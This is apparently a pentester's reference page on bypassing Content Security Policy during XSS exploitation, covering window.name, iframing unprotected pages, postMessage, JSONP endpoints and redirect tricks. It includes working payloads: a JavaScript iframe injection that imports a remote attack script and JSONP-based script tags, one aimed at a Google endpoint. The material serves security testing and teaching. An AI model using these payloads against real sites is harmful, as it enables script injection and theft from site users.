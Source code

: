 ```yaml
---
title: Content Security Policy (CSP)
description: Content Security Policy (CSP) is an added layer of security that helps to detect and mitigate certain types of attacks, including Cross-Site Scripting (XSS) and data injection attacks.
badge: Web
---
```



CSP can be really anoying when trying to exploit XSSs. Here are a couple of ways to overcome this limitation.
First of all you can analyze the policy using the csp-evaluator by Google to quickly check what's available to you:

* [csp-evaluator.withgoogle.com](https://csp-evaluator.withgoogle.com/)

CSP can be defined both as HTTP responese headers, and included inside `<meta>` like the following:

``` html
<meta http-equiv="Content-Security-Policy" content="{{ csp-policy default-src 'self' cdn.example.com;}}">
```

## Abusing `window.name`

> Can be abused on the most restricted CSP environments, but works **only in Chrome**.

Anything stored on the `name` / `window.name` variable will be shared between sites on the same browser tab. This menas that if _attacker-site_ sets the variable with any value, this will be preserved when redirected to a completely different site.

## Iframing non-protected pages

If you find an XSS vector in one resource but it's protected by CSP, there might be another resource on the same origin without said protections where you can inject arbitrary scripts using iframes.

> This should work on virtually every browser. The main drawback is the payload size, which depending on the resource you want to inject and the URL lenght for the script you want to load, might be longer than available for scenarios like stored XSS.

The idea is that, if you pop an XSS on the `/search` resource, you can use that to iframe and inject arbitrary scripts on a <smart-variable variable="non-protected-page" default-value="/robots.txt"></smart-variable> resource without CSP.

A fairly short XSS payload would be the following:

<smart-tabs variable="js-minified" :tabs="{'regular': 'Regular', 'minified': 'Minified'}">
<template v-slot:regular>

``` js
f = document.createElement("iframe")
document.body.appendChild(f).src = "{{ non-protected-page /robots.txt }}"
f.onload = () => f.contentDocument.body.innerHTML = "&lt;style onload=import('{{ remote-script //localhost:8888/attack.js }}')>"
```

</template>
<template v-slot:minified>

``` js
f=document.createElement("iframe"),document.body.appendChild(f).src="{{ non-protected-page /robots.txt }}",f.onload=()=>f.contentDocument.body.innerHTML="&lt;style onload=import('{{ remote-script //localhost:8888/attack.js }}')>"
```

</template>
</smart-tabs>

I'm using `<style onload=import` to load the script on the non-protected resource because it's a fairly short payload, but you can try any other payload.

> Iframes have to be allowed for the resource, but if it has no CSP or overly-permissive CSP, it's unlikely that iframing is disallowed from the same origin.

## Abusing `postMessage`

Less of a pain to use than `window.name`, can be used in environments with a not as restrictive CSP. As an example, if `script-src` is restricted, it would be possible to load scripts by passing code through `postMessage`

> Should work on any modern browser if allowed through the website's Content Security Policy

## Abusing JSONP

When no `unsafe-inline` is allowed, and only scripts served from a specific source can be loaded, there's still the possiblity of abusing JSONP endpoints if present.
Your XSS should look similar to the following:

``` html
<script src="{{ jsonp-endpoint /l/es.json?callback= }}{{ xss-payload alert(document.domain)} url }%2F%2F">
```

The JSONP endpoint can be located at any source allowed by the CSP.
There's a lot of publicly available endpoints from many interesting domains; for exaple, if `*.google.com` or `accounts.google.com` is allowed you could use the following:

``` html
<script src="https://accounts.google.com/o/oauth2/revoke?callback={{ xss-payload alert(document.domain)} url }%2F%2F">
```

There's plenty of such resources, you can find more on the following repo:

* [github.com/zigoo0/JSONBee](https://github.com/zigoo0/JSONBee)

Default JSONP endpoints provided by frameworks or stacked technologies, such as Wordpress, are usually protected against this, having many characters blocked by default. This means that if you are attacking a Wordpress site, it will most likely have an exposed JSONP endpoint, but it will be very difficult to abuse for this purpose. However, this is definetely doable with complex payloads using stuff like Same Origin Method Execution[^1][^2][^3]

## Bypass path restrictions with redirections

CSP allows you to also specify paths in order to restrict the sources where content can be loaded.
The paths are completely ignored after redirects, but any domain the browser requests must be allowed by the CSP.
If you have an open-redirect gadget, it might be useful for this.

[^1]: **Bypass CSP Using WordPress By Abusing Same Origin Method Execution** - [octagon.net/blog/2022/05/29/bypass-csp-using-wordpress-by-abusing-same-origin-method-execution](https://octagon.net/blog/2022/05/29/bypass-csp-using-wordpress-by-abusing-same-origin-method-execution/)
[^2]: **SOME Attack** - [www.someattack.com/Playground/About](https://www.someattack.com/Playground/About)
[^3]: #HITB2017AMS D2T1 - **Everybody Wants SOME: Advance Same Origin Method Execution** - Ben Hayak - [youtu.be/OvarkOxxdic](https://youtu.be/OvarkOxxdic)
